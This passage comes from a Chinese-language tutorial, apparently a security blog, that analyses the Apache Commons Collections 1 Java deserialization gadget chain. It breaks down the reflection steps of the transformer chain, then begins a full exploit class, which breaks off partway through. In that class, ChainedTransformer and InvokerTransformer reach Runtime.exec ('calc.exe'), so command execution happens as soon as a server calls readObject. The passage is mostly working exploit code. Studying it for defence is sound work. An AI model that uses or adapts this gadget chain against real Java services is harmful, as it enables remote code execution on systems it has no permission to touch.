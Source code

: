 ###### step2

```java
Object input = Class.forName("java.lang.Runtime").getMethod("getRuntime")

return input.getClass()
		.getMethod("invoke", new Class[] {Object.class, Object[].class})
		.invoke(input, new Object[] {null, new Object[0]})

new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class}, new Object[] {null, new Object[0]})
```

###### step3

```java
Object input = Class.forName("java.lang.Runtime")

return input.getClass()
		.getMethod("getMethod", new Class[] {String.class, Class[].class})
		.invoke(input, new Object[] {"getRuntime", new Class[0]})

new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
```

###### step4

```java
new ConstantTransformer(Runtime.class)
```

至此PoC中的transformers构造完成

#### Exp构造分析

Exp需要对PoC进行改写，使只要服务端执行了readObject函数就等于命令执行，这样更容易触发漏洞。

```java
package org.example.cc;

import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections1 {

    public static void main(String[] args) throws Exception {
        //此处构建了一个transformers的数组，在其中构建了任意函数执行的核心代码
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };
```